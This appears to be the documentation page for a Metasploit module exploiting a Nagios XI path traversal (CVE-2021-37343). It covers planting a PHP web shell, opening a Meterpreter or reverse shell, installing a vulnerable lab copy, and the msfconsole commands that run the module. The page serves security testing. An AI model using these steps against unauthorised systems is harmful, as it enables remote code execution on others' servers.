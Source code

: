 ## Vulnerable Application

### Description

This module exploits a path traversal issue in Nagios XI before version 5.8.5 (CVE-2021-37343). The path
traversal allows a remote and authenticated administrator to upload a PHP web shell and execute code as
`www-data`. The module achieves this by creating an autodiscovery job with an `id` field containing a
path traversal to a writable and remotely accessible directory, and `custom_ports` field containing
the web shell. A cron file will be created using the attacker's chosen path and name, and the web
shell is embedded in the file.

After the web shell has been written to the victim, this module will then use the webshell to establish
a Meterpreter session or a reverse shell. By default, the web shell is deleted by the module, and the
autodiscovery job is removed as well.

### Installation

The following was tested on Ubuntu 20.04.

* wget https://assets.nagios.com/downloads/nagiosxi/5/xi-5.8.4.tar.gz
* tar -xvf xi-5.8.4.tar.gz
* cd nagiosxi
* sudo ./fullinstall

The installer will spend a good deal of time installing many things. Upon completion, navigate to
the Web UI, accept license agreements, and configure the administrator username and password.

## Verification Steps

* Follow the instructions above to install Nagios XI 5.8.4 on Ubuntu 20.04
* Do: `use exploit/linux/http/nagios_xi_autodiscovery_webshell`
* Do: `set RHOST <ip>`
* Do: `set PASSWORD <password>`
* Do: `check`
* Verify the target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `run`
* You should get a Meterpreter session.

## Options

### TARGETURI

Specifies base URI. The default value is `/nagiosxi`.

### USERNAME
